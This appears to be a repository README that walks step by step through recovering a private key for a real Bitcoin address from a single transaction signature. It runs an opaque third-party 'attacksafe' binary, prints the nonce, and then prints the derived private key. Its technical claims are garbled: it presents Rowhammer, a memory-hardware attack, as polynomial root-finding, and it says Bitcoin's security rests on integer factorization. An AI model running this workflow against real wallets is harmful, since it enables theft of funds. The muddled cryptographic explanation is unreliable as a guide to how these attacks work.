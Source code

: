 # Rowhammer Attack

---
# Rowhammer Attack

---

The biggest cryptographic strength of the Bitcoin cryptocurrency is a computational method in discrete mathematics that takes the factorization problem of large integers and the hidden number problem (HNP) in the Bitcoin ECDSA signature transaction as a basis.
Rowhammer Attack on Bitcoin, allows us to efficiently find all zeros for normalized polynomials modulo a certain value, and we adapt this method to the ECDSA signature algorithm, more precisely to critically vulnerable transactions in the Bitcoin blockchain.
We will apply ECDSA signature differential failure analysis and obtain a private key from a transaction for different Bitcoin Wallets.



---

* Tutorial: https://youtu.be/lfYPcXPzLjE
* Tutorial: https://cryptodeep.ru/rowhammer-attack

---

# Commands:





    git clone https://github.com/demining/CryptoDeepTools.git


    cd CryptoDeepTools/15RowhammerAttack/

    ls

    wget https://bootstrap.pypa.io/pip/2.7/get-pip.py

    sudo python2 get-pip.py

    pip2 install -r requirements.txt


---


## With a critical vulnerability, we can get the private key to the Bitcoin Wallet:


https://btc1.trezor.io/address/1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o

https://btc1.trezor.io/tx/3c79fae7e31a32e12d55f2e0c91d88e11d6f16faa35f1ec85bd7d768a1c18846


---



    RawTX = 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000


    python2 breakECDSA.py 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000


---


R = 0x331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc67

S = 0x0bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff4

Z = 0x9d86bea51385f6a56835d0148e7f23a353605bab339127e800112307e6727d2d


---

# To implement the attack and get the secret key, we will use the software: “ATTACKSAFE SOFTWARE” [ https://attacksafe.ru/software ]


---

    chmod +x attacksafe


---

    ./attacksafe -tool rowhammer_attack -open RawTX.txt -save SecretKey.txt


---



## We launched this attack from -tool rowhammer_attack and the result is saved to the file SecretKey.txt


    cat SecretKey.txt


    Deployments ECDSA:

    SecretKey = 0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d


    RawTX = 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000


---


## We see the inscription "Deployments ECDSA" which means a critical vulnerability in the Bitcoin blockchain transaction

SecretKey value in HEX format, this is our secret key "K" (NONCE):

K=0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d


---


    pip3 install ECPy


    python3 point2gen.py 0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d



    R          =    0x331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc67
    point2gen  =   (0x331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc67 , 0xc6efa8de714dd94d7b659d8935aa9036ada6a2b541a03360901fc195fd0e2cf6)


---


# ALL CORRECT!


K=0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d

## Now knowing the secret key, we can get the private key to the Bitcoin Wallet: 16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG


The script: calculate.py will calculate the private key using the formula:
Privkey = ((((S * K) - Z) * modinv(R,N)) % N)


---


    python3 calculate.py


---


## PrivKey = aa35fda8f16d06ae02bdcf671e03035795a0b0ecbdae45098928f6587016a932



---


---

* Tutorial: https://youtu.be/lfYPcXPzLjE
* Tutorial: https://cryptodeep.ru/rowhammer-attack

---


|  | Donation Address |
| --- | --- |
| ♥ __BTC__ | 1Lw2kh9WzCActXSGHxyypGLkqQZfxDpw8v |
| ♥ __ETH__ | 0xaBd66CF90898517573f19184b3297d651f7b90bf |
